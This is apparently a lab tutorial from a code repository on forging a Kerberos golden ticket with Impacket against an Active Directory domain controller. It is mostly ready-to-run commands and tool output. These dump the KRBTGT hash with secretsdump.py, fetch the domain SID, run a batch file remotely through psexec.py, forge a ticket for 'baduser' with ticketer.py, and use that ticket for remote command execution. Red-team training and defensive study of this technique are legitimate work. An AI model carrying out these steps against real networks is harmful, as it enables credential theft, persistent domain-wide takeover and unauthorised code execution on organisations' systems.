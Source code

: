 ```yaml
---
author:
- David Johnson
index: 'Windows!Servers!Golden Ticket'
setupfile: '\"../org-html-themes/org/theme-readtheorg-local-1.setup\"'
title: Golden Ticket with Impacket
---
```


Golden Ticket
=============

This document covers how to create a Golden Ticket. An Active Directory
Domain server is required for this to work. Connected clients are useful
but not required.

Creating the Ticket
===================

To create a Golden Ticket the NT Hash for KRBTGT will need to be aquired
as well as the Domain SID. All this can easily be done with Impacket.

KRBTGT NT Hash
==============

Lets start off by getting the KRBTGT hash. The following script will
write our desired information to a file called win2016 in the \~/
directory.

``` {.example}
secretsdump.py Administrator:vagrant@192.168.64.133 | grep krbtgt | grep ::: > ~/win2016; cat ~/win2016
```

Domain SID
==========

To get the domain SID use lookupsid.py and grep to filter out just the
information needed. Again that information is writen to the win2016
file.

``` {.example}
lookupsid.py Administrator:vagrant@192.168.64.133 | grep "Domain SID" >> ~/win2016; cat ~/win2016
```

Domain Name
===========

There are times when we forget which domain we are on. To limit errors
we will not assume the domain name but rather get it from the machine.

``` {.example}
echo "powershell Get-WmiObject Win32_ComputerSystem" > ~/GetDomain.bat
```

Now execute this bat file on the target.

``` {.example}
psexec.py Administrator:vagrant@192.168.64.133 -c ~/GetDomain.bat | grep Domain >> ~/win2016; cat ~/win2016
```

Create Ticket
=============

With all the nessassary data create a ticket.

``` {.example}
ticketer.py -nthash 4031b5ae4b9defa1f411f26610493e0c -domain-sid S-1-5-21-126282473-2140987555-3925513934 -domain Win2016.local baduser
```

``` {.example}
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for Win2016.local/baduser
[*]         PAC_LOGON_INFO
[*]         PAC_CLIENT_INFO_TYPE
[*]         EncTicketPart
[*]         EncAsRepPart
[*] Signing/Encrypting final ticket
[*]         PAC_SERVER_CHECKSUM
[*]         PAC_PRIVSVR_CHECKSUM
[*]         EncTicketPart
[*]         EncASRepPart
[*] Saving ticket in baduser.ccache

```

Use the Ticket
==============

To use the ticket with psexec.py the ticket needs to be exported.

Export the Ticket
-----------------

The ticket will need to be exported to be able to use it with psexec.py.

``` {.example}
echo "export KRB5CCNAME=/vagrant/docs/baduser.ccache" >> ~/.bashrc
. ~/.bashrc
tail ~/.bashrc
```

Use the Ticket With Psexec
--------------------------

Below we use the ticket against Win2016.

``` {.example}
export KRB5CCNAME=/vagrant/docs/baduser.ccache; psexec.py -dc-ip 192.168.64.133 -target-ip 192.168.64.133 -no-pass -k Win2016.local/baduser@Win2016.Win2016.local
```
